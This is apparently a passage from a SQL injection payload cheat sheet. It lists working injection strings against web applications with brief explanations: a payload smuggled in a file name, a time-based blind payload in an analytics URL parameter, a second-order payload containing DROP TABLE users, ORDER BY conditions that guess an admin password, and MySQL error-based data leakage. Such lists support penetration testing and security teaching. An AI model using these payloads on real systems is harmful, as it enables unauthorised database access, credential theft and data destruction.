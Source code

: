 ```
filename=exploit.jpg'; SELECT 1,2,3 FROM users; -- -
```
**Explanation**: Tests for SQL injection in file upload handlers or when files are processed.

### Blind SQLi in analytics parameters

```
https://target.com/page?utm_source='; IF (SELECT COUNT(*) FROM users)>100 THEN pg_sleep(5) ELSE pg_sleep(0) END; -- -
```
**Explanation**: Targets analytics tracking parameters that might be stored in a database without proper sanitization.

## 8. Advanced SQL Logic Manipulation

### Second-Order SQL Injection

```sql
' UNION SELECT 'x"; DROP TABLE users; -- -', 'password' -- -
```
**Explanation**: Stores a malicious payload that will be executed when the data is used in another query later.

### Advanced UNION select with ORDER BY injection

```sql
' UNION SELECT NULL,NULL FROM information_schema.tables WHERE table_schema=database() ORDER BY (SELECT 1 FROM users WHERE username='admin' AND password LIKE 'a%') -- -
```
**Explanation**: Uses the ORDER BY clause to test conditions—if true, query executes normally; if false, it may cause an error.

### Conditional subqueries with delayed execution

```sql
' AND EXISTS(SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT DISTINCT CONCAT(0x7e, version(), 0x7e) FROM information_schema.tables LIMIT 0,1), FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x)a) -- -
```
**Explanation**: An advanced technique that causes MySQL to leak data through a groupwise error message.
